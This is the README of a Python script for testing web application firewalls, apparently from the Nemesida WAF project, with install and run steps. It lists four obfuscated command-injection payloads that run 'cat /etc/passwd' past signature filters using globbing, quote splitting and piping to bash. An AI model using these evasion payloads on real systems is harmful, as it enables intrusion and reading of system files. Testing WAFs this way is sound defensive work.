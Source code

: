 # WAF Bypass script

WAF bypass script written in Python3 is designed to test WAF.

## Do not break the law when using!

A script developed for internal needs, including for testing Nemesis WAF and Nemesida WAF Free, but you can use it to test any WAF.

There are attacks for which it is impossible to create a signature, while not increasing the number of false positives. Therefore, it is absolutely normal that Nemesida WAF Free skips the attack, and the commercial version of Nemesida WAF Free blocks. For example, we can execute the <code>cat /etc/passwd</code> command in the following ways:
<pre>
%2f???%2f??t%20%2f???%2fp??s??
cat+/e't'c/pa'ss'wd
e'c'ho 'swd test pentest' |awk '{print "cat /etc/pas"$1}' | bash
ec'h'o 'cat /etc/examplewd' | sed 's/example/pass/g' | bash
</pre>

## How to run

<pre>
# mkdir /opt/waf-bypass/
# git clone https://github.com/nemesida-waf/waf_bypass.git /opt/waf-bypass/
# python3 -m pip install -r /opt/waf-bypass/requirements.txt
# cd /opt/waf-bypass/

# python3 /opt/waf-bypass/main.py
</pre>
